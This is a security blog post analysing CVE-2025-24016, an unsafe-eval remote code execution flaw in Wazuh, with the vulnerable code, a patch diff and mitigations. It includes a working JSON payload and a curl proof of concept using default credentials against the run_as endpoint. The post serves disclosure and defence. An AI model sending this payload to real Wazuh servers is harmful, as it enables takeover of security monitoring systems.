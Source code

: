 ```yaml
---
id: 2
title: "CVE-2025-24016: Unsafe Deserialization in Wazuh – RCE"
date: "March 27, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/blog_post_2_2.png"
authorQuote: "Critical RCE Flaw in Wazuh: Unsafe Deserialization Puts Systems at Risk"
---
```


![CVE-2025-24016](/assets/img/blog/blog_post_2_2.png)
# CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

## Description
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016, which enables attackers to execute arbitrary code remotely on their servers.

Attackers who have API access can execute arbitrary Python commands on vulnerable servers through this vulnerability, which exists from version 4.4.0 up to 4.9.0. The `as_wazuh_object` function processes DistributedAPI (DAPI) request or response data that makes the vulnerability active. The vulnerability enables attackers to execute arbitrary Python code, resulting in system takeover, data breaches, and complete security damage to infrastructure.

The safe `ast.literal_eval` function change in version 4.9.1 enables vulnerability protection.
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016 which enables attackers to execute arbitrary code remotely on their servers.

## Technical Breakdown

- **Affected Software:** Wazuh  
- **Affected Versions:** 4.4.0 to 4.9.0  
- **CVSSv3.1 Score:** 9.9 (Critical)  
- **CVSSv3.1 Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:H`  
- **Affected Component:** `framework/wazuh/core/cluster/common.py`  
- **Attack Vector:** Network  
- **Privileges Required:** Low (API Access)  
- **User Interaction:** None  
- **Scope:** Changed  

The security problem resides inside the `as_wazuh_object` function within `framework/wazuh/core/cluster/common.py`. DAPI data serialization occurs through this function to process JSON data used for communication between Wazuh API, manager, and agents.

Before the implementation of the security patch the vulnerable code section appeared as follows:

```python
def as_wazuh_object(dct: Dict):
    try:
        if '__wazuh_datetime__' in dct:
            return datetime.datetime.fromisoformat(dct['__wazuh_datetime__'])
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
            return eval(exc_data['__class__'])(*exc_data['__args__']) # 🚨 VULNERABLE 🚨
        return dct
    except (KeyError, AttributeError):
        return dct
```

The code checks if the dictionary `dct` contains the key `__unhandled_exc__`. A valid dictionary value for `__unhandled_exc__` enables the code to obtain class and args values before implementing `eval` to create an instance of `__class__` with arguments `__args__`. Evaluating untrusted data means exposing the system to severe Python code execution since attackers control it.

## Affected Component Analysis
CVE-2025-24016 occurs because `eval` operates on every data string received from the Distributed API for serialization. Evaluation functions in Python enable execution of arbitrary program code so this creates a major security threat to users.
The vulnerability can be abused by attackers who create specific malicious JSON data including the `unhandled_exc` dictionary entry. A specifically constructed dictionary within the Python class gets passed to the `eval` function allowing server-execution of arbitrary code.
The vulnerability appears because the `as_wazuh_object` function fails to properly clean or check incoming data before sending it to evaluation. Attackers can execute remote code by placing their own code into the `class` and `args` fields because this vulnerability allows control over these parameters.

An attacker can send the following JSON payload:
```json
{
    "__unhandled_exc__": {
        "__class__": "os.system",
        "__args__": ["touch /tmp/pwn.txt"]
    }
}
```
The execution of `eval` within `as_wazuh_object` produces a system call of `os.system("touch /tmp/pwn.txt")`, leading to the creation of a file named `/tmp/pwn.txt` on the Wazuh server.

## Exploitation Techniques
Exploiting this vulnerability requires API access, which attackers can obtain through compromised dashboards, agents, or weak credentials.

A proof-of-concept (PoC) demonstrates how exploitation can be carried out via the run_as endpoint:
```sh
curl -X POST -k -u "wazuh-wui:MyS3cr37P450r.*-" -H "Content-Type: application/json" \  
--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}' \  
https://<worker-server>:55000/security/user/authenticate/run_as
```
### Explanation of the Exploit:
•	`-X POST` – Specifies the HTTP method as POST.
•	`-k` – Disables SSL certificate verification (useful for testing in environments with self-signed certificates).
•	`-u "wazuh-wui:MyS3cr37P450r.*-"` – Provides authentication credentials (default credentials are used here, which should be changed for security).
•	`-H "Content-Type: application/json"` – Sets the `Content-Type` header to `application/json` to indicate the request body format.
•	`--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}'` – Injects the malicious JSON payload, which executes the command touch /tmp/pwn.txt on the Wazuh server, demonstrating arbitrary code execution.
•	`https://<worker-server>:55000/security/user/authenticate/run_as` – Specifies the run_as endpoint URL. The placeholder <worker-server> should be replaced with the actual hostname or IP address of the Wazuh worker server.

### Attack Capabilities
- **Full system control** – Attackers can install malware, modify configurations, or exfiltrate sensitive data.
- **Lateral movement** – The compromised Wazuh server can be used for spreading across networks.
- **Monitoring disruption** – Security alerts can be disabled, allowing attackers to operate undetected.

## Patch Analysis
Wazuh resolved this vulnerability in version 4.9.1 by replacing `eval` with `ast.literal_eval`, which securely evaluates literals without allowing arbitrary code execution.

Here is the relevant code modification in `framework/wazuh/core/cluster/common.py`:

```python
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
-            return eval(exc_data['__class__'])(*exc_data['__args__'])
+            exc_dict = {exc_data['__class__']: exc_data['__args__']}
+            return ast.literal_eval(json.dumps(exc_dict))
        return dct
```
The patch mitigates the vulnerability by replacing the unsafe `eval` function with `ast.literal_eval`. Unlike `eval`, `ast.literal_eval` only processes Python literals, eliminating arbitrary code execution risks.

## Mitigation Strategies
To reduce the risk associated with this vulnerability, organizations should implement the following security measures:

- **Upgrade to Wazuh 4.9.1 or later** – This version includes the necessary patch to fix the vulnerability.
- **Restrict API access** – Limit API usage to only authorized users and trusted systems.
- **Temporary workarounds** – Deploy Web Application Firewalls (WAFs) to block requests containing `__unhandled_exc__`.
- **Monitor API traffic** – Continuously track API activity for unusual behavior, such as unexpected requests or large data transfers.
- **Regularly update security configurations** – Ensure that Wazuh security settings are current and properly configured.

## References
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-24016)
- [GitHub Advisory](https://github.com/wazuh/wazuh/security/advisories/GHSA-hcrc-79hj-m3qh)
- [GitHub Repository (PoC)](https://github.com/0xjessie21/CVE-2025-24016)
- [SonicWall Blog](https://www.sonicwall.com/blog/critical-wazuh-rce-vulnerability-cve-2025-24016-risks-exploits-and-remediation)
- [SecurityOnline.info](https://securityonline.info/cve-2025-24016-cvss-9-9-critical-rce-vulnerability-discovered-in-wazuh-server/)
- [Recorded Future](https://www.recordedfuture.com/vulnerability-database/CVE-2025-24016)

